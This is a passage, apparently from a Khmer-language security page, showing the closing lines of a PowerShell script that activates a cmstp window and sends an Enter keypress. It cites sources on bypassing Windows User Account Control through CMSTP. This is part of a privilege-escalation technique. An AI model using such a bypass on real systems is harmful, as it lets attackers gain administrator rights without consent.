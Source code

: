 
#Activate window
Set-WindowActive cmstp

#Send the Enter key
[System.Windows.Forms.SendKeys]::SendWait("{ENTER}")
}
{{< / highlight >}}

<b>ឯកសារដើម៖</b>
- [https://0x00-0x00.github.io](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)
- [tylerapplebaum](https://github.com/tylerapplebaum/CMSTP-UACBypass/blob/master/UACBypassCMSTP.ps1)
